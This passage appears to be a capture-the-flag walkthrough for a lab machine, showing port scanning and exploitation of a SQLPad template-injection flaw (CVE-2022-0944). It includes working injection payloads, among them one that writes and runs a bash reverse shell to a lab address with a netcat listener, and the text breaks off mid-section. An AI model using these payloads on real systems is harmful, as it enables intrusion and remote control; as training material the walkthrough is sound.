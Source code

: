 # CTF Walkthrough: Sightless

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Information Gathering](#2-information-gathering)
- [3. Vulnerability Discovery](#3-vulnerability-discovery)
- [4. Exploitation](#4-exploitation)
- [5. Privilege Escalation](#5-privilege-escalation)

---

## 1. Introduction
 
**Category:** Reverse Shell, netcat, sqlpad, unshadow, froxlor, lftp, kpcli, xxd, dos2unix
**Difficulty Level:** Easy   
**CVE(s) involved:** CVE-2024-34070, CVE-2022-0944

---

## 2. Information Gathering

### 2.1. Initial Enumeration
- **Add to /etc/hosts**
    - Command: `sudo vim /etc/hosts`
    - Command: `10.10.11.32 sightless.htb`

- **Running Services**
    - Command: `nmap -p- --min-rate 10000 10.10.11.32`
      - Output: 
        ```
        PORT   STATE SERVICE
        21/tcp open  ftp
        22/tcp open  ssh
        80/tcp open  http
        ```
    - Command: `nmap -p 21,22,80 -sCV 10.10.11.32`
        - Output:
            ```
            PORT   STATE SERVICE VERSION
            21/tcp open  ftp
            | fingerprint-strings:
            |   GenericLines:
            |     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
            |     Invalid command: try being more creative
            |_    Invalid command: try being more creative
            22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
            | ssh-hostkey:
            |   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
            |_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
            80/tcp open  http    nginx 1.18.0 (Ubuntu)
            |_http-title: Did not follow redirect to http://sightless.htb/
            |_http-server-header: nginx/1.18.0 (Ubuntu)
            1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
            SF-Port21-TCP:V=7.94SVN%I=7%D=9/8%Time=66DDF2FD%P=x86_64-pc-linux-gnu%r(Ge
            SF:nericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20S
            SF:erver\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20t
            SF:ry\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x2
            SF:0being\x20more\x20creative\r\n");
            Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
            ```

- **Web Discovery**:
    - The SQLPad "Start Now" button is linked to `sqlpad.sightless.htb`
    - Add to /etc/hosts
        - Command: `sudo vim /etc/hosts`
        - Command: `10.10.11.32 sqlpad.sightless.htb`
    - Visit `http://sqlpad.sightless.htb`
---

## 3. Vulnerability Discovery
- **CVE-2022-0944**
    - Template injection in connection test endpoint leads to RCE in GitHub repository sqlpad/sqlpad prior to 6.10.1.
    - **Proof of Concept**
        - Steps
            - Start a Python server
                - Command: `python -m http.server 80`

            - COnnections > Add connection
                - Name : Test
                - Driver : MySQL
                - Database :
                    ```
                    {{ process.mainModule.require('child_process').exec('wget; curl 10.10.14.6/curl')}}
                    ```
            - Save

---

## 4. Exploitation
- **CVE-2022-0944**
    - Steps to reproduce:
        - Connections > Add connection
            - Name : Test
            - Driver : MySQL
            - Database : 
                ```
                {{ process.mainModule.require('child_process').exec('echo "#!/bin/bash\nbash -i
                >& /dev/tcp/10.10.14.66/1261 0>&1" > /tmp/exploit.sh') }}
                ```
        - Start netcat
            - Command: `nc -lvnp 1261`

        - Connections > Add connection
            - Name : Test
            - Driver : MySQL
            - Database :
                ```
                {{ process.mainModule.require('child_process').exec('/bin/bash /tmp/exploit.sh')
                }}
                ```

- 

- **CVE





